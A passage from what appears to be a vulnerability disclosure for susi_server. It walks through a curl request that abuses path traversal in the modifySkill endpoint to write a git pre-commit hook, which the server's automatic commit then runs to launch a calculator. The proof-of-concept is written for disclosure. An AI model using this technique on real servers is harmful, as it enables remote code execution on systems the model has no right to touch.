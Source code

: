    This will change the content of the `whois` skill file from `OWNED` to `ANYTHING`.
   The file `susi_server/src/org/json/JSONException.java` (this file is executable) is renamed to `susi_skill_data/models/general/Knowledge/en/pre-commit.txt`.
5. In a terminal the following command is executed:
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=pre-commit' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=pre-commit' \
   -F $'content=#!/bin/sh\nexec xcalc' \
   -F 'new_image_name=../../../../../../susi_skill_data/.git/hooks/pre-commit' \
   -F 'old_image_name=../pre-commit.txt' 'http://localhost:4000/cms/modifySkill.json'
   ```
   This will change the content of the `pre-commit` skill file to `#!/bin/sh\nexec xcalc`.
   The skill file `susi_skill_data/models/general/Knowledge/en/pre-commit.txt` is then moved to `susi_skill_data/.git/hooks/pre-commit`.
6. A file manager is opened which shows the existence of the `susi_skill_data/.git/hooks/pre-commit` file.
7. The changes are now automatically commited by `susi_server`.
This triggers the malicious pre-commit hook we just created. A calculator that pops up can be seen.
</div>

